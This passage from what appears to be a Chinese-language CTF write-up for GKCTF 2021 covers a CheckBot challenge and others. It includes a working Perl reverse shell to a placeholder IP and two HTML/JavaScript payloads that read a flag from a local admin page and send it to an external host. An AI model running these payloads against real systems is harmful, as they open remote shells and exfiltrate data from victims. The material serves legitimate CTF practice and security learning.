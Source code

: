 流程：获取admin token -> 添加用户 -> 导入DIV -> 渲染触发。

	perl -e 'use Socket;$i="x.x.x.x";$p=3333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211026002209.png)

# [GKCTF 2021]CheckBot
bot本地访问admin.php获得flag。
根据index.php的提示，bot会访问我们post提交的url。那么也就是说构造一个页面让bot本地访问admin.php并带出flag即可。

	<html>
    	<body>
        	<iframe id="flag" src="http://127.0.0.1/admin.php"></iframe>
        	<script>
            	window.onload = function(){
                	/* Prepare flag */
                	let flag = document.getElementById("flag").contentWindow.document.getElementById("flag").innerHTML;
                	/* Export flag */
                	var exportFlag = new XMLHttpRequest();
                	exportFlag.open('get', 'http://x.x.x.x:3333/flagis-' + window.btoa(flag));
                	exportFlag.send();
            	}
        	</script>
    	</body>
	</html>

这个没打出，应该是xmlrequest的问题，换了下面那个

	<html>
    	<body>
        	<iframe id="iframe1" src="http://127.0.0.1/admin.php"></iframe>
        	<script>
	function load(){
	var iframe = document.getElementById("iframe1").contentWindow.document.getElementById("flag").innerHTML;
	console.log(iframe);
	fetch('http://xxx.xx.xxx.xx:5555', {method: 'POST', mode: 'no-cors', body: iframe})
	}

	window.onload = load;
	</script>
    	</body>
	</html>

fetch:https://www.jb51.net/html5/586989.html

# [GKCTF 2021]hackme

nosql注入：https://whoamianony.top/2021/07/30/Web%E5%AE%89%E5%85%A8/Nosql%20%E6%B3%A8%E5%85%A5%E4%BB%8E%E9%9B%B6%E5%88%B0%E4%B8%80/
